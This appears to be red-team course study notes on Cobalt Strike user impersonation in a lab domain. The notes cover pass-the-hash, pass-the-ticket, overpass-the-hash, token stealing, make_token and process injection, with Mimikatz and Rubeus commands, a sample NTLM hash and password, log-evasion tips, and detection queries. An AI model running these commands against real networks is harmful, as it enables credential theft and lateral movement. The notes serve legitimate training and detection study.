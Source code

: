 # User Impersonation

There are techniques which use stolen creds to access one of the target computers. There are also techniques that don't use credentials directly, but take advantage of processes that the user is running on a machine we have elevated access on. Test elevated access to a machine by listing the C drive, as this requires local admin.

## Pass the Hash

Allows you to authenticate to a Windows service using a user's NTLM hash. It starts a new session with a fake identity and then replaces the session information with the domain, username, and NTLM hash provided. 

Beacon has a ```pth``` command that executes Mimikatz in the background (requires elevated privs).

In lab, on beacon prompt:

1. ```getuid``` - find out who I am
2. ```ls \\web.dev.cyberbotic.io\c$``` - attempt to list the C$ share of the WEB machine (this will fail because bfarmer is not a local admin)
3. ```pth DEV\jking 59fc0f884922b4ce376051134c71e22c``` - run ```pth``` with jking's username and NTLM hash; Mimiktaz passes the new credentials over a named pipe, which Beacon then impersonates automatically
4. ```ls \\web.dev.cyberbotic.io\c$``` - attempt to list the C$ share works now!
5. ```rev2self``` - drop impersonation when no longer needed

Two ways to detect ```pth```:
* The R/W handle to LSASS (access mask of 0x1038)
* Look for ```echo foo > \\.\pipe\bar``` pattern in command-line logs (via the "Suspicious Named Pipe Impersonation" search)

## Pass the Ticket

Allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to or a new one you create. Accessing a remote resource will then allow that authentication to happen via Kerberos.

Use the TGT extracted from the logon session on Workstation 2. Create a blank, "sacrificial" logon session that we can pass the TGT into (can only hold a single TGT at a time -- also, passing jking's TGT into bfarmer's LUID would erase bfarmer's TGT and cause all sorts of authentication issues for the user)

1. ```execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe``` - start a new hidden process of your choice; also creates a new ticketless LUID
2. ```execute-assembly Rubeus.exe ptt /luid:0x798c2c /ticket:doIF...LklP``` - pass the TGT into this new LUID
3. ```steal_token 4748``` - impersonate the process that we created using the PID createnetonly returned
4. To clean up:
   * ```rev2self```
   * ```kill <PID>```

Rubeus defaults to a random username, domain, and password, which will appear in the associated <PID> logon event. The "Suspicious Logon Events" saved search will show 4624's where the TargetOutboundDomainName is not an expected value. To set these values (password doesn't have to be real):

```execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123```

## Overpass the Hash

Allows us to request a Kerberos TGT for a user, using their NTLM or AES hash. Elevated privs are required to obtain user hashes, but not to request a ticket.

* ```execute-assembly Rubeus.exe asktgt /user:jking ntlm:59fc...e22c /nowrap``` - use the returned TGT for Pass the Ticket (but this stands out in the logs since NTLM uses RC4)
* ```execute-assembly Rubeus.exe asktgt /user:jking aes256:4a8...57c6 /nowrap``` - to get an AES256 TGT; gets logged as 4768, but blends in (except Ticket Options and Supplied Realm Name; uses the FQDN of the domain of the computer)
* ```execute-assembly Rubeus.exe asktgt /user:jking aes256:4a8...57c6 /domain:DEV /opsec /nowrap``` - uses the NETBIOS name and correct Ticket Options to blend in better

Rubeus' method doesn't touch LSASS (unlike Mimikatz) but does generate Kerberos traffic from an odd process, not LSASS.  These can be seen using the "Kerberos Traffic from Suspicious Process" saved search.

## Token Impersonation

If we elevate or are on a system where a user is running a process, we can impersonate the token. Get a handle to the target process, open and copy its primary access token, and then impersonate that token. Ability to abuse it goes away when the user closes the process. By taking the additional steps of extracting tickets or hashes, we provide ourselves a more guaranteed or "future-proof" way of using the creds. When impersonating users, CS shows who the beacon is impersonating.

1. List the running processes on Workstation 2 from an elevated prompt to see that jking is running an instance of ```mmc``` (in PS ```Get-Process```).
2. ```steal_token <PID>``` to access a target
3. ```ls \\web.dev.cyberbotic.io\c$``` to show elev access 
4. 

## Token Store

CS can store tokens stolen for future use. Stealing a token opens a handle to the target process and process token, so the fewer times it's done the better. Also, keeping a token prevents the OS from closing the session if they log off.

* ```token-store steal <PID>``` - steal token
* ```token-store show``` - show tokens
* ```token-store use <ID>``` - use a token
* ```token-store remove <ID>``` - delete token
* ```token-store remove-all``` - flush tokens

## Make Token

Impersonate a user with their plaintext password. Uses the [LogonUserA API](https://learn.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-logonusera), which gives a handle to a token that can be passed to the [ImpersonateLoggedOnUser API](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-impersonateloggedonuser), allowing the calling thread to impersonate the context of token.

* ```make_token DEV\jking Qwerty123``` - session created has same local identifier as the caller but the alternate credentials are used when accessing a remote resource
* ```remote-exec winrm web.dev.cyberbotic.io whoami``` - shows this
* So ```make_token``` is not applicable to anything run on the current machine. For that, ```spawnas``` may be better. 

These logon events are found in Kibana with the query: ```event.code: 4624 AND winlog.event_data.LogonType: 9``` where 4624 is the "An account was successfully logged on" Event ID and LogonType 9 is LOGON32_LOGON_NEW_CREDENTIALS. But ```runas /netonly``` behaves the same; difficult to distinguish legitimate from malicious events.

## Process injection

Process injection puts arbitrary shellcode into a process that you can obtain a handle to with enough privileges to write into its memory. 

Beacon has two injection commands:
* ```shinject <target PID> {x64|x32} <listener name>``` injects arbitrary shellcode from a binary file on the attacking machine
* ```inject``` injects a full Beacon payload for the specified listener

If we wanted to inject a TCP Beacon payload into the MMC process mentioned in the previous module, we could do: ```inject 4464 x64 tcp-local```, which will also attempt to connect to the child if a P2P listener is used. The resulting Beacon runs with the privilege of the user who owns the process.

If the process closes, the beacon will be lost. The injected shellcode uses the Exit Thread function, so it won't kill the process if we exit the beacon.


